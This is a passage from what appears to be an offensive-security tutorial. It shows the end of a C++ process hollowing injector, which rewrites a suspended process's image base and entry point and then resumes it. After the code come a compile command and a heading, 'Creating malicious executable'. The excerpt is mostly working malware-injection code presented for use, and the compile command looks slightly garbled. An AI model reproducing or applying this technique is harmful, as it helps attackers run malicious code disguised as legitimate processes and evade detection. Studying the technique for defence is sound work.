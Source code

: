 ```cpp
						printf("Error Writing Entry.\n");
					}
					#endif
				}
			}
		}
	}

	#ifdef _X86_
		// Write The New Image Base Address
		WriteProcessMemory(proc_info.hProcess, (PVOID)(pContext->Ebx + 8), &nt_head->OptionalHeader.ImageBase, sizeof(PVOID), NULL);

		// Write The New Entrypoint
		DWORD EntryPoint = (DWORD)((LPBYTE)mem + nt_head->OptionalHeader.AddressOfEntryPoint);
		pContext->Eax = EntryPoint;
	#endif
	#ifdef _WIN64
			// Write The New Image Base Address
			WriteProcessMemory(proc_info.hProcess, (PVOID)(pContext->Rdx + (sizeof(SIZE_T) * 2)), &nt_head->OptionalHeader.ImageBase, sizeof(PVOID), NULL);

			// Write The New Entrypoint
			DWORD64 EntryPoint = (DWORD64)((LPBYTE)mem + nt_head->OptionalHeader.AddressOfEntryPoint);
			pContext->Rcx = EntryPoint;
	#endif

	printf("\nSetting Thread Context.\n");
	if (!SetThreadContext(proc_info.hThread, pContext)){
		printf("Error setting context\n");
		return 0;
	}

	printf("Resuming Thread.\n");
	if (!ResumeThread(proc_info.hThread)){
		printf("Error resuming thread\n");
		return 0;
	}


	printf("\nDone. Enjoy The \"New\" Process.\n---------------------------------\n\n");
	return 0;
}
```

In order to use it, we should compile it using ```g++ ProcessHollowing.cpp -o ProcessHollowing.exe -```
## Creating malicious executable
